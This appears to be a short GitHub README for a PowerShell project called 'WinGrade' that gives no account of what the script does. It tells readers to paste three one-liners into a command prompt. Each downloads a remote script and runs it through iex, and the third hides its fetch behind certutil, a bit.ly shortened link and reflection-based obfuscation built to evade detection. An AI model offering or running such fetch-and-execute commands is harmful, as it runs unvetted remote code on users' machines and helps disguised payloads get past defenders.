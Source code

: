 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:

powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"

or

powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"

or

`powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn
).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{``$_.Name-ilike'Ge*ts'}).Name).Invoke(
'*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object
{``$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'``r``n'))"


In the Windows Command Prompt.


This Script is still in the early Alpha release!!! And has some bugs
